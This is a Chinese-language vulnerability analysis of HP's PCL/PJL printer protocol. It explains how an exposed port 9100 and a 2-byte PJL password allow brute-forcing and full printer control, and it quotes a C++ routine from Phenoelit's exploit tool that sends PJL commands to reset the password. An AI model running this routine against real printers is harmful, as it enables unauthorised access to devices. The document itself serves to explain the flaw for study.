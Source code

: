 <link href="https://cdnjs.cloudflare.com/ajax/libs/prettify/r224/prettify.css" type="text/css" rel="stylesheet" />
<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.10.2/jquery.min.js">
</script> 
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/prettify/r224/prettify.js">
</script>
<script>
$(document).ready(function() 
{
    $("pre").addClass("prettyprint");
    prettyPrint();
});
</script>

#<center style="font-size:50px;">打印机PCL漏洞原理分析</center>

##0x01 漏洞概要
<p class="p"> PCL代表打印机控制语言（Printer Control Language），由惠普公司开发，并被广泛使用的一种打印机协议。关于另一种页面描述语言，应该提一提由Adobe设计的PostScript（PS），它可以将更为复杂的事情交由绘图仪/打印机处理。PJL (Printer Job Language，打印机作业语言)作为PCL的扩展，用于指导打印机行为，比如更改设备设置、传输文件等。
若打印机的9100端口向公网开启，在向打印机发送PJL指令之前需要对使用者的身份进行认证，认证程序的密钥长度为２字节(Byte)，因此可以通过暴力破解认证密钥想打印机发送PJL指令，最终导致任意命令的执行。

<p class="p">
<b>PJL</b> <i>(Printer Job Language)</i>程序用于告诉打印机执行什么动作，是对PCL的额外支持。 <b>PJL</b> <i>(Printer Job Language)</i> 用于规范格式化页面的基本语言。本身是无害的，但却成为大多数解析器和解释器的漏洞利用代码。</p>

##0x02 漏洞原理
<p class="p">
打印机系统9100端口开启时，若连上该端口通过PJL指令发送设备名称请求并得到打印机的响应，说明可以未授权访问打印机，PJL保护机制的密钥由２个字节(16比特)的存储单位存储，可以进行暴力破解攻击，从而得到目标打印机的完全访问权限。
</p>
<p class="p">
根据国外安全研究员PHENOELIT 已经写好了漏洞利用程序，对其中的主要代码进行分析，得到下面的流程图：
</p>

<center>![流程图](./Flow-chart.jpg)</center>

<p class="p">
下面是破解密钥部分的代码：
在pjlsession.cpp中的230到256行
</p>

    void PJLsession::blind_disable_pjl_password(unsigned int pass) {
	    String	ts;
	    char numb[50];
	    if ((pass==0)||(pass>65535)) throw ExInvalid();#ifndef UNIX
	    _snprintf(numb,49,"%u",pass);#else
	    snprintf(numb,49,"%u",pass);#endif //UNIX
	    connection.clear();
	    connection.sendbuf.set(PJL_START);
	    connection.sendbuf.append("\r\n");
	    connection.sendbuf.append("@PJL JOB PASSWORD=");
	    connection.sendbuf.append(numb);
	    connection.sendbuf.append("\r\n@PJL DEFAULT PASSWORD=0 \r\n");
	    connection.sendbuf.append("@PJL EOJ\r\n");
	    connection.sendbuf.append(PJL_FINISH);
	    connection.senddata();
	    // TEST !!!
	    // connection.recvatleast(9,ctimeout);
	    // end TEST
	    connection.sendbuf.clear();
	}
